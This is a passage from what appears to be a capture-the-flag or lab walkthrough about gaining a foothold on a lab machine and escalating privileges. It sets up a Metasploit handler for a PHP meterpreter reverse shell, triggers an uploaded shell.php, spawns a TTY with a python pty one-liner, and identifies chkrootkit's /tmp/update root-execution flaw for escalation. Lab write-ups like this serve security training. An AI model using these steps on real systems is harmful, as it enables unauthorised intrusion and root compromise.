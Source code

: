 ```
![image](https://user-images.githubusercontent.com/69868171/118410909-dd8bb100-b65f-11eb-8d62-6901d63478bf.png)

And boom it uploaded now let start `msfconsole` and set it up to catch our shell .

1. use exploit/multi/handler
2. set payload php/meterpreter_reverse_tcp
3. set lhost Local-IP
4. set lport 443

![image](https://user-images.githubusercontent.com/69868171/118411014-820df300-b660-11eb-9ec9-ba2a24a942fd.png)

Now let click on exploit and back to the `http://172.16.139.177/test/` to click on the shell.php we just uploaded .

NOTE:- you need to run `msfconsole` with `sudo` or if you are in root you are good to go to run exploit.

![image](https://user-images.githubusercontent.com/69868171/118411144-1b3d0980-b661-11eb-9ab4-48adfac2a350.png)

Now let click the shell.php we uploaded .

![image](https://user-images.githubusercontent.com/69868171/118411174-3d368c00-b661-11eb-87df-76ada2ae91c4.png)

And boom we have shell smooth right?? lol .

### Privilege Escalation

Now let drop in a shell by typing `shell` and spawning a TTY shell with `python -c 'import pty; pty.spawn ("/bin/bash")'` and we are good to go cool .

![image](https://user-images.githubusercontent.com/69868171/118411374-352b1c00-b662-11eb-9655-8981ddbf2633.png)

So we only have one 2 users on the box root and john going through john home folder i found nothing also checking the tmp and opt folder everything seems empty.

![image](https://user-images.githubusercontent.com/69868171/118411483-d74b0400-b662-11eb-987d-efe47157e33f.png)

So i decided to check the crontab and guess what i found something interesting in the `/etc/cron.daily` .

![image](https://user-images.githubusercontent.com/69868171/118411619-66f0b280-b663-11eb-83c4-1cd134616ee0.png)

The `chkrootkit` so i check the version and check for some available exploit.

![image](https://user-images.githubusercontent.com/69868171/118411640-8687db00-b663-11eb-85d3-3a9d3eeaddf1.png)

Also found one for metasploit which is nice and easy for us to use now .

![image](https://user-images.githubusercontent.com/69868171/118411697-d6ff3880-b663-11eb-819b-89c0af03db4f.png)

 Chkrootkit before 0.50 will run any executable file named /tmp/update as root, allowing a trivial privilege escalation. WfsDelay is set to 24h, since this is how often a chkrootkit scan is scheduled by default. 
 
```